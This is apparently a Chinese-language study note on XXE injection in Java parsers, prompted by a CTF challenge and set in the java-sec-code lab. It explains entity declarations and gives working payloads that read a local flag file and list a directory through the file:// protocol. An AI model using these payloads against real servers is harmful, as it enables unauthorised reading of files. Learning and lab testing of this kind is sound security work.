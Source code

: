 # Java中的XXE

## 前言

之前SUSCTF2022的时候遇到了Java的XXE，当时也只是按照之前的思路来打了外带，但实际上Java的XXE和PHP的还是不太一样的，所以也来学习一下。

## 基础知识

XXE的基础知识，再贴一下了。

XML外部实体注入 （XML External Entity Injection，以下简称XXE注入）是一种针对解析XML文档的应用程序的注入类型攻击。当恶意用户在提交一个精心构造的包含外部实体引用的XML文档给未正确配置的XML解析器处理时，该攻击就会发生。XXE注入可能造成敏感信息泄露、拒绝服务、SSRF、命令执行等危害，现已加入OWASP Top 10豪华套餐。

XML实体又分为内部实体和外部实体：

```xml
<!ENTITY name "value">
```

```xml
<!ENTITY name SYSTEM "URI">
<!ENTITY name PUBLIC "PUBLIC_ID" "URI">
```

外部实体声明中，分为`SYSTEM`和`PUBLIC`，前者表示私有资源 *（但不一定是本机）* ，后者表示公共资源。实体声明之后就可以在文本中进行引用了



## 环境

漏洞环境这里为了偷懒直接用Java-sec-code的XXE环境了。

https://github.com/JoyChou93/java-sec-code/

## 常见攻击方式

### 读文件和列目录

#### file协议

```java
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
<!ENTITY file SYSTEM "file:///d://flag">
]>
<xml>
<xxe>&file;</xxe>
</xml>
```

![image-20220308164835543](Java中的XXE.assets/image-20220308164835543.png)

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
<!ENTITY file SYSTEM "file:///d://">
]>
<xml>
<xxe>&file;</xxe>
</xml>
```
